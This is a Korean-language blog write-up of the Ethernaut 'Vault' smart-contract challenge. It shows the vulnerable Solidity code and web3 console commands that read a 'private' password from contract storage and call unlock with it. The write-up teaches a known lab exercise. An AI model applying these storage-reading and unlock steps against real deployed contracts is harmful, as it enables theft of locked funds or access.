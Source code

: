 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 8) Vault
date: '2022-01-10 17:18:00'
author: 한성원
tags: ethernaut Force vulnerability
categories: 취약점분석
---
```



# 👋 Force
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- vault를 unlock하면 승리한다.
- locked 변수를 false로 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract Vault {

    bool public locked;
    
    // private으로 정의된 비밀번호
    bytes32 private password;

    // constructor: password를 parameter로 받음
    constructor(bytes32 _password) public {
        // valut의 lock을 건다
        locked = true;
        // parameter password를 private 변수에 저장
        password = _password;
    }

    // 올바른 비밀번호를 입력하면 vault를 unlock할 수 있는 function
    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
- - -

## 풀이
이 문제에서 우리의 목표는 vault를 unlock하는 것이다.

위에 코드에서 보다싶이 우리는 올바른 비밀 번호를 가지고 unlock()을 실행시키면 vault를 unlock 할 수 있다는 것을 알 수 있다. 여기서 유심히 봐야할 점은 password가 smart contract에 저장되어 있다는 점이다. 블록체인 특성상 private으로 정의되었어도 외부에서 정보를 확인할 수 있다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 우리는 web3 library를 사용한다.
// getStorageAt API를 사용하여 storage의 slot 1에 저장되어 있는 32 bytes의 data를 가져온다.
// 결과 값: 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
await web3.eth.getStorageAt(instance, 1)

// 얻은 password와 함꼐 unlock()을 실행시키면 vault가 unlock 된다!
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

// 얻은 password를 우리가 읽을 수 있게 바꾸고 싶다면?
// 결과 값: 'A very strong secret password :)'
await web3.utils.toAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

```

Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
이 문제를 완벽하게 이해하기 위해서는 slot, 즉 storage에 대한 깊은 이해가 필요하다. slot은 2^256개가 존재하며 각각 32 bytes를 store할 수 있다. variable type에 따라 하나의 slot에 여러개의 변수가 저장될 수 있으며 slot의 우측에서부터 저장된다.

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- selfdestruct 취약점: https://holyhansss.github.io/vulnerability/selfdestruct/selfdestruct/

```toc

```